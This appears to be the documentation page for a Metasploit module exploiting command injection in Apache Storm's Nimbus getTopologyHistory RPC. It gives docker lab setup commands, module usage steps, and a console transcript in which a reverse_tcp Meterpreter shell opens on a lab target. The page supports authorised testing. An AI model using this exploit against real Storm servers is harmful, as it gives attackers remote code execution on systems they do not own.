 ## Vulnerable Application

This module exploits a command injection vulnerability within the Nimbus service component of Apache Storm.
The getTopologyHistory RPC method method takes a single argument which is the name of a user which is
concatenated into a string that is executed by bash. In order for the vulnerability to be exploitable, there
must have been at least one topology submitted to the server. The topology may be active or inactive, but at
least one must be present.

This vulnerability was patched in versions 2.1.1, 2.2.1 and 1.2.4. This exploit was tested on version 2.2.0
which is affected.

## Verification Steps

1. Setup a minimal Storm cluster using the published docker images. The following steps were adapted from [Docker
  reference][1].
  * The following steps can be executed to start up a minimal Storm cluster, but requires the [Storm Starter][2] jar
    to exist in the current directory as `topology.jar`. Follow the steps on the [projects page][3] to build it with
    Maven. Storm Starter v2.4.0 was used for testing.

```
# 1. Start a ZooKeeper server:
docker run -d --rm --name some-zookeeper zookeeper
# 2. Start a Nimbus server:
docker run -p 6627:6627 -d --rm --name some-nimbus --link some-zookeeper:zookeeper \
  storm:2.2.0 storm nimbus
# 3. Start a Supervisor server:
docker run -d --rm --name supervisor1 --link some-zookeeper:zookeeper --link some-nimbus:nimbus \
  storm:2.2.0 storm supervisor
# 4. Submit a topology using Storm Starter:
docker run --rm --link some-nimbus:nimbus -it -v $(pwd)/topology.jar:/topology.jar \
  storm:2.2.0 storm jar /topology.jar \
  org.apache.storm.starter.ExclamationTopology exclamation
```
2. Start `msfconsole`
3. Do: `exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec`
4. Set the module options
5. Do: `exploit`
6. You should get a shell

## Options

## Scenarios

### Debian 11.1 x64, Apache Storm v2.2.0 (From Docker)

```
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set TARGET  1
TARGET => 1
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set PAYLOAD  linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.31:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 192.168.159.31:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.31
[*] 192.168.159.31:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:51680 ) at 2021-11-12 14:45:37 -0500

meterpreter > getuid
Server username: storm
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.1 (Linux 5.4.0-89-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://hub.docker.com/_/storm
[2]: https://github.com/apache/storm/tree/master/examples/storm-starter
[3]: https://github.com/apache/storm/tree/master/examples/storm-starter#build-and-install-storm-jars-locally
